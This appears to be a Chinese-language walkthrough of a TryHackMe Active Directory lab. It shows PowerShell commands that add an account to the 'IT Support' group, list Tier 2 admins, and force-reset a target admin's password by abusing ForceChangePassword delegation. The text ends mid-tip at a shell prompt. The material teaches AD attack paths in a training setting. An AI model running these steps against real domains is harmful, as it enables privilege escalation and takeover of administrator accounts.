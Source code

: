 ### AddMember - 添加成员

这个攻击路径的第一步是将我们的 AD 账户添加到 IT 支持组。我们将使用 AD-RSAT 工具集中的 Add-ADGroupMember PowerShell cmdlet 来实现。在 THMJMP1 主机上启动 PowerShell（无论是通过 RDP 还是通过 SSH），并运行以下命令来添加你的账户：

```powershell title="PowerShell"
PS C:\>Add-ADGroupMember "IT Support" -Members "Your.AD.Account.Username"
```

我们可以使用 Get-ADGroupMember 命令来验证命令是否生效：

```powershell title="PowerShell"
PS C:\>Get-ADGroupMember -Identity "IT Support"
distinguishedName : CN=hugh.jones,OU=Consulting,OU=People,DC=za,DC=tryhackme,DC=loc
name              : hugh.jones
objectClass       : user
objectGUID        : 460178d3-c818-4e28-9a39-b1ab2b0d3779
SamAccountName    : hugh.jones
SID               : S-1-5-21-3885271727-2693558621-2658995185-1113
```

如果一切顺利，你应该能看到你的账户作为成员。

### 强制更改密码

现在我们是 IT 支持组的成员，我们已经继承了对第二层管理员组的 ForceChangePassword 权限委派。首先，我们需要识别这个组的成员以选择一个目标。我们可以再次使用 Get-ADGroupMember 命令来辅助进行这项工作：

```powershell
PS C:\>Get-ADGroupMember -Identity "Tier 2 Admins"
distinguishedName : CN=t2_lawrence.lewis,OU=T2 Admins,OU=Admins,DC=za,DC=tryhackme,DC=loc
name              : t2_lawrence.lewis
objectClass       : user
objectGUID        : 4ca61b47-93c8-44d2-987d-eca30c69d828
SamAccountName    : t2_lawrence.lewis
SID               : S-1-5-21-3885271727-2693558621-2658995185-1893

[....]

distinguishedName : CN=t2_leon.francis,OU=T2 Admins,OU=Admins,DC=za,DC=tryhackme,DC=loc
name              : t2_leon.francis
objectClass       : user
objectGUID        : 854b6d40-d537-4986-b586-c40950e0d5f9
SamAccountName    : t2_leon.francis
SID               : S-1-5-21-3885271727-2693558621-2658995185-3660
```

记下其中一个账户的用户名。由于网络是共享的，最好选择列表中的后面一个。我们将使用 Set-ADAccountPassword AD-RSAT cmdlet 来强制更改密码：

```powershell
PS C:\>$Password = ConvertTo-SecureString "New.Password.For.User" -AsPlainText -Force
PS C:\>Set-ADAccountPassword -Identity "AD.Account.Username.Of.Target" -Reset -NewPassword $Password
```

:::tip


[thmserver1.za.tryhackme.loc]: PS C:\Users\t1_trevor.jones\Documents> whoami